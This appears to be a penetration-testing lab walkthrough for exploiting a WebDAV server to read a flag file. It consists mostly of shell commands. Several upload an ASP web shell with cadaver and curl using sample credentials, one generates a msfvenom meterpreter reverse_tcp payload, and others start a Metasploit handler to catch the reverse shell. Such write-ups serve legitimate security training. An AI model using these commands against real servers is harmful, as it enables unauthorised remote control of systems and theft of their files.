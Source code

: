 ```shell
# We can use this utility to upload the *asp web shell*. 
cadaver -h
cadaver http://<target_IP>/webdav # Use credentials.

# Kali comes with pre-packaged with a series of web shells and they can be accessed under.
put /usr/share/webshells/asp/webshell.asp

# Visit http://<target_IP>/webdav and click asp file. You will be provided with an imput box tha allows you to execute commands on the target system. The output will be on the page.
dir C:\ # ls - Linux
type C:\flag.txt # cat /flag.txt - Linux

# The curl -T command is used to upload a file to a remote server using protocols like HTTP, HTTPS, FTP, SFTP, or WebDAV.
curl -T /usr/share/webshells/asp/webshell.asp -u bob:password_123321 http://<target_IP>/webdav/    
```

Using **Metasploit** and **Msfvenom**
**Msfvenom** is a tool that is part of the Metasploit Framework, a popular penetration testing framework developed by Rapid7. Msfvenom is used for generating and encoding payloads, which are pieces of code that an attacker delivers to a target system to gain control or execute specific actions.

```shell
nmap -sV -p 80 --script http-enum <target_IP>
# Generate the ASP payload.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_IP> LPORT=1234 -f asp > <name>.asp
# Upload the payload to the target machine
cadaver http://<target_IP>/webdav # Username and Password
put /root/vladshell.asp
```

Before executing the payload, we need to set up a **listener (handler)** that will wait for the **reverse connection** from the target. Once the target connects back, the handler will send the necessary components (the "stage") to complete the process and provide us with a **Meterpreter session**.

In order to do this, we will need to start up a Metasploit Framework console session:

```shell
#First we need to start a database session, because Metasploit console requires the actual Metasploit Framework database to be started.
service postgresql start && msfconsole
use multi/handler
# This module is a stub that provides all of the features of the Metasploit payload system to exploits that have been launched outside of the framework.
set payload windows/meterpreter/reverse_tcp
set LHOST <my_IP>
set LPORT <port_number>
run
#Now we have fully access. 
sysinfo
getuid
dir C:\
type C:\flag.txt
```
